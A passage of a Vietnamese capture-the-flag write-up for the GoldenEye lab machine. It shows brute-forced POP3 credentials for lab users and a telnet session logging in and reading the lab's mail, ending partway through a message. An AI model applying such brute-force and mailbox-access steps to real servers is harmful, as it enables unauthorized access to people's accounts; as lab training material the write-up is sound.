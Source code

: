 Không khả thi cho lắm. Tuy nhiên tôi còn 1 cái tên nữa là *natalya*, và để tìm được password của user này thì tôi lại quay về cách đơn giản nhất thôi - bruteforce.

`[55007][pop3] host: 10.10.52.162   login: natalya   password: bird`

Tôi cũng sẽ thử lại với user *boris* vì có thể pass phía trên không phải pass để login pop3

`[55007][pop3] host: 10.10.52.162   login: boris   password: secret1!`

Login lại pop3

```python
┌──(kali㉿kali)-[~]
└─$ telnet 10.10.52.162 55007                                                                                  
Trying 10.10.52.162...
Connected to 10.10.52.162.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
user natalya
+OK
pass bird
+OK Logged in.
list
+OK 2 messages:
1 631
2 1048
```

Message 1

```python
retr 1
+OK 631 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from ok (localhost [127.0.0.1])
        by ubuntu (Postfix) with ESMTP id D5EDA454B1
        for <natalya>; Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
Message-Id: <20180425024542.D5EDA454B1@ubuntu>
Date: Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
From: root@ubuntu

Natalya, please you need to stop breaking boris' codes. Also, you are GNO supervisor for training. I will email you once a student is designated to you.

Also, be cautious of possible network breaches. We have intel that GoldenEye is being sought after by a crime syndicate named Janus.
.
```

Message 2

```python
retr 2
+OK 1048 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from root (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id 17C96454B1
        for <natalya>; Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
Message-Id: <20180425031956.17C96454B1@ubuntu>
Date: Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
From: root@ubuntu

```